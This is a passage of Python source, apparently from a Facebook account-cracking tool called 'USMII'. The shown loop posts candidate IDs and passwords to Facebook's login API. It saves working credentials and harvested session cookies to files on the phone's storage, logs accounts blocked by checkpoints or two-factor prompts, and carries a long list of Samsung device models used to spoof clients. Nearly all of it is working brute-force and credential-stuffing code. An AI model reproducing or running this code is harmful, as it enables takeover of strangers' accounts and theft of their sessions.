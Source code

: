 			
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [LEGEND-USMII-OK] '+ids+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        #print("\r\r\033[1;33m Cookie: "+coki)
                                        open('/sdcard/USMII-COOKIE.txt','a').write(ids+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/USMII-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[USMII-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[1;31m [ALONE-USMII-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/USMII-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/USMII-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
def api(ids,names,passlist):
        try:
                global ok,loop,sim_id